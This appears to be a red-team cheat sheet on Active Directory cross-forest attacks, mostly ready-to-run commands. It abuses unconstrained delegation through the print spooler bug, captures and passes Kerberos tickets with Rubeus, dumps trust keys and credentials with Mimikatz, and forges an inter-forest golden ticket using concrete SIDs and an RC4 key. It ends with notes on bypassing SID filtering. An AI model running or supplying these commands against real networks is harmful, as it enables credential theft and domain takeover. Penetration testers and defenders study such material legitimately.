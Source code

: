 **Unconstrained Delegation**  

Enumerate if TGTDelegation is enabled across a forest trust, run the below command from a DC  
(or spray and pray the print spool bug on other forests' DC's and a machine that has unconstrained delegation)  
 
```powershell
# Using ActiveDirectory module:
Get-ADTrust -server <forest.local> -Filter *

# Use MS-RPRN.exe (https://github.com/leechristensen/SpoolSample):
.\MS-RPRN.exe \\<target-machine-FQDM> \\<FQDM-of-unconstrained-delegation-machine>
# We can capture the TGT of of the target machine by using Rubeus (https://github.com/GhostPack/Rubeus) on the machine with unconstrained delegation:
.\Rubeus.exe monitor /interval:5 /nowrap

# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker'machine:
.\Rubeus.exe ptt /ticket:<base64 encoded text from rubeus monitor>
# Then run DCSync on the target DC
```

**Trust Keys**  

```powershell
# We require the trust key for the inter-forest trust:
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
# or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<targetMachine$>"'
# or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# We can also use any of the earlier discussed tools to extract trust keys

# On the forest dc before the target forest
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<currentDomain.local> /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:<targetDomain.local> /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:sharedwitheu.kirbi"'
# /sid is the current domain SID
# /rc4 is the trust key rc4
# /sids is the EA or DA group of the target domain

Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

net view \\<target.machine.local>
ls \\<target.machine.local>\share\
```

Bypass SID Filtering:  
Enumerate trusts with AD Module and look for "SIDFilteringForestAware" being set to "True",  
or with PowerView "TrustAttributes: FILTER_SIDS",  
or with `nltest /trusted_domains /v`: "Attr: quarantined".  
Need to inject into SIDs with an RID value greater than 1000 (user created groups) 
(Reapeat above code snippet process)  
